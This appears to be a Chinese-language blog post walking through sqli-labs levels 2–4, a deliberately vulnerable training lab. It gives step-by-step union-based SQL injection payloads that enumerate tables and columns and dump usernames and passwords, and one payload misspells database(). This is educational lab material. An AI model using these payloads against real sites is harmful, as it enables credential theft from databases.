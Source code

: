 ```yaml
---
layout: post
title: SQL_报错注入-->less2-less-4
date: 2021-06-01 17:55 +0900
category: sql-inject
---
```

<!-- TOC -->

- [0x0 LESS2-布尔型注入](#0x0-less2-布尔型注入)
- [0x1 LESS3-字符型注入(单引号带括号)](#0x1-less3-字符型注入单引号带括号)
- [0x2 LESS4-字符型注入(双引号带括号)](#0x2-less4-字符型注入双引号带括号)

<!-- /TOC -->
## 0x0 LESS2-布尔型注入
- 正常访问  
![](/images/20210601-1.png)
- 引号报错  
![](/images/20210601-2.png)
- 判断注入点  
`?id = 1 and 1=1 #`  
`?id = 1 and 1=2 #`
![](/images/20210601-3.png)
- 测列数  
`?id = 1 and 1=1 order by 4 #`  
![](/images/20210601-4.png)
- 测数据显示点  
`?id=-1 and 1=1 union select 1,2,3 #  //注意id改成-1`  
![](/images/20210601-5.png)  
- 测试数据库名和用户权限  
`?id=-1 and 1=1 union select 1,datebase(),user() #`  
![](/images/20210601-6.png)  
- 测表名  
`?id=-1 and 1=1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = database() ),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() #`  
![](/images/20210601-7.png)
- 测列名  
`?id=-1 and 1=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema = database()),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' #`  
![](/images/20210601-8.png)
- 测字段  
`?id=-1 and 1=1 union select 1,(select group_concat(concat_ws(0x7e,username,password))from users),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(concat_ws(0x7e,username,password)),3 from users #`  
![](/images/20210601-9.png)

## 0x1 LESS3-字符型注入(单引号带括号)
- 报错信息  
![](/images/20210601-10.png)
根据报错信息可以推断存在一个括号  
![](/images/20210601-11.png)
实际表现为  
`select ('id=1') and 1=2 --+) //--+后被注释掉`  
等价于  
`select ('id=1') and 1=2`  
- 测列数  
`?id=1') and 1=1 order by 4--+`  
![](/images/20210601-12.png)
- 测数据显示点  
`?id=-1') and 1=1 union select 1,2,3--+`  
![](/images/20210601-13.png)
- 测试数据库名和用户权限  
`?id=-1') union select 1,database(),user() --+`  
![](/images/20210601-14.png)
**之后步骤与LESS-2一致**  

## 0x2 LESS4-字符型注入(双引号带括号)
- 报错信息  
![](/images/20210601-15.png)
- 注入点  
`?id= 1") and 1=2 --+`  
![](/images/20210601-16.png)
- 测数据显示点  
`?id= -1") union select 1,2,3 --+`  
![](/images/20210601-17.png)
- 测试数据库名和用户权限  
`?id= -1")  union select 1,database(),user() --+`  
![](/images/20210601-18.png)
- 测表名  
`?id= -1")  union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+`  
![](/images/20210601-19.png)
- 测字段  
`?id= -1") union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'  and table_schema=database()--+`  
![](/images/20210601-20.png)
- 测数据  
`?id= -1") union select 1,group_concat(concat_ws(0x7e,username,password)),3 from users--+`  
![](/images/20210601-21.png)